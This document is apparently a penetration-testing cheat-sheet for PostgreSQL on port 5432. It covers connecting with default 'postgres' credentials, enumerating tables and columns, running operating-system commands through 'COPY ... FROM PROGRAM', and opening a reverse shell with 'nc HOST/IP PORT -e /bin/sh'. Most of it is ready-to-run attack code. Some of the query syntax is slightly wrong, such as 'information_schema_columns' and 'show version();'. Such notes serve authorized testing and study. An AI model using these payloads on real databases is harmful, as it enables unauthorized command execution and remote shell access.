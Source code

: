## TCP 5432 Postgresql  

### Connecting to the database
`psql -h HOST/IP -p PORT -U USER`  

Default username and database are both `postgres`   


### PostGres Commands  
```
show version();

# Comment
--comment
or
/*comment*/

# Enumerating db contents
# Listing the tables
SELECT * FROM information_schema.tables
or
SELECT TABLE_NAME FROM information_schema.tables

# Listing columns
SELECT * FROM information_schema_columns WHERE table_name = 'TABLE_NAME'
or
SELECT column_name FROM information_schema_columns WHERE table_name = 'TABLE_NAME'

```
 
### Command Execution in Postgresql  >= 9.3

```
DROP TABLE IF EXISTS cmd_exec;  
CREATE TABLE cmd_exec(cmd_output text);  
COPY cmd_exec FROM PROGRAM 'COMMAND';  
SELECT * FROM cmd_exec;  
```
<i>COMMAND</i> is the command to pass onto the operating system.  
Output of the command is shown after execution of the final SELECT command.  

**For reverse shell**:  
```
DROP TABLE IF EXISTS cmd_exec;  
CREATE TABLE cmd_exec(cmd_output text);  
COPY cmd_exec FROM PROGRAM 'nc HOST/IP PORT -e /bin/sh & 2>/dev/null'; 
SELECT * FROM cmd_exec;  
```
